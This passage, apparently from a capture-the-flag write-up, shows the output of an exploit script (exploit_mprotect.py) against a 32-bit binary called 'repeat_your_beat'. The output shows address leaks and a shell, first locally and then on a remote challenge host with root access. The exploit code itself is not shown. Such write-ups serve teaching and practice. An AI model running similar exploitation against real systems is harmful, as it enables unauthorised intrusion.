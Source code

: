 ```bash
[+] Libc leak = 0xf7f04580
[+] Binary leak = 0x5661224b
[+] Stack leak = 0xffd77b64
[+] Libc @ 0xf7d19000
[+] Loader @ 0xf7f2a000
[+] Binary @ 0x56611004
[*] Switching to interactive mode
$ whoami
euan
$
```
Boom, we've exploited it locally. Now moving it to remote and tweaking the exploit a bit to cater for that:
```bash
euan@euanb26  docker  python3 exploit_mprotect.py REMOTE
[*] '[some_path]/repeat_your_beat'
   Arch:     i386-32-little
   RELRO:    Full RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[*] '/lib/ld-linux.so.2'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Opening connection to euan-ctf-lb-1666742192.eu-west-2.elb.amazonaws.com on port 1337: Done
[*] '/lib/i386-linux-gnu/libc.so.6'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    Canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Libc leak = 0xf7f545c0
[+] Binary leak = 0x5664e607
[+] Stack leak = 0xff993e24
[+] Libc @ 0xf7d69040
[+] Loader @ 0xf7f7a040
[+] Binary @ 0x5664d3c0
[*] Switching to interactive mode
$ whoami
root
$ ls
repeat_your_beat encrypted_text.txt
$ cat encrypted_text.txt
```